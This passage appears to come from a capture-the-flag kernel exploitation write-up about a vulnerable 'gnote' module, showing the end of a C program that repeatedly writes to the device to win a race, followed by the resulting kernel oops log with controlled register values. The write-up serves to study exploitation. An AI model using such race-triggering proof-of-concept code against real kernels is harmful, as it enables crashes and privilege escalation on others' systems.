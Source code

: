 ```c

    while (1)
        write(fd, buf, sizeof(buf));

    return 0;
}
```

The race hits almost instantaneously:

```
BUG: unable to handle kernel paging request at 00000001ca337aa0
PGD 8000000001446067 P4D 8000000001446067 PUD 0 
Oops: 0000 [#1] SMP PTI
CPU: 3 PID: 96 Comm: t Tainted: P           O      4.19.65 #1
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS rel-1.12.1-0-ga5cab58e9a3f-prebuilt.qemu.org 04/01/2014
RIP: 0010:gnote_write+0x20/0xd0 [gnote]
Code: Bad RIP value.
RSP: 0018:ffffa2b600257da0 EFLAGS: 00010293
RAX: 0000000041414141 RBX: 00007fffe1887448 RCX: ffffa2b600257ea0
RDX: ffff9db5c1b59480 RSI: 00007fffe1887448 RDI: ffffffffc0298100
RBP: ffffa2b600257db0 R08: 0000000000000001 R09: 0000000000000008
R10: ffff9db5c1b65438 R11: 0000000000000000 R12: 0000000000000008
R13: ffffa2b600257ea0 R14: 00007fffe1887448 R15: 0000000000000000
FS:  00007fffe1887480(0000) GS:ffff9db5c3980000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: ffffffffc0295ff6 CR3: 000000000146c000 CR4: 00000000001006e0
DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
DR3: 0000000000000000 DR6: 00000000fffe0ff0 DR7: 0000000000000400
Call Trace:
 proc_reg_write+0x39/0x60
 __vfs_write+0x26/0x150
 vfs_write+0xad/0x180
 ksys_write+0x48/0xc0
 __x64_sys_write+0x15/0x20
 do_syscall_64+0x57/0x270
 ? do_page_fault+0x22/0x30
 entry_SYSCALL_64_after_hwframe+0x44/0xa9
RIP: 0033:0x4011ad
Code: 48 8b 54 24 08 48 8b 74 24 10 8b 7c 24 1c 48 83 c4 28 e9 e7 00 00 00 31 c0 ff c0 87 07 c3 b0 3c b4 00 0f b7 c0 49 89 ca 0f 05 <48> 3d 7c ff ff ff 76 0f f7 d8 50 e8 33 01 00 00 59 89 08 48 83 c8
RSP: 002b:00007fffe1887438 EFLAGS: 00000202 ORIG_RAX: 0000000000000001
RAX: ffffffffffffffda RBX: 00007fffe1887448 RCX: 00000000004011ad
RDX: 0000000000000008 RSI: 00007fffe1887448 RDI: 0000000000000003
RBP: 0000000000000003 R08: 000000000000003f R09: 0000000000000000
R10: 00000000004011ad R11: 0000000000000202 R12: 0000000000000001
R13: 00007fffe1887518 R14: 00007fffe1887480 R15: 0000000000000000
Modules linked in: gnote(PO)
CR2: 00000001ca337aa0
---[ end trace b075c1b449229ebd ]---
RIP: 0010:gnote_write+0x20/0xd0 [gnote]
Code: Bad RIP value.
RSP: 0018:ffffa2b600257da0 EFLAGS: 00010293
RAX: 0000000041414141 RBX: 00007fffe1887448 RCX: ffffa2b600257ea0
RDX: ffff9db5c1b59480 RSI: 00007fffe1887448 RDI: ffffffffc0298100
RBP: ffffa2b600257db0 R08: 0000000000000001 R09: 0000000000000008
R10: ffff9db5c1b65438 R11: 0000000000000000 R12: 0000000000000008
R13: ffffa2b600257ea0 R14: 00007fffe1887448 R15: 0000000000000000
FS:  00007fffe1887480(0000) GS:ffff9db5c3980000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: ffffffffc0295ff6 CR3: 000000000146c000 CR4: 00000000001006e0
DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
DR3: 0000000000000000 DR6: 00000000fffe0ff0 DR7: 0000000000000400
```
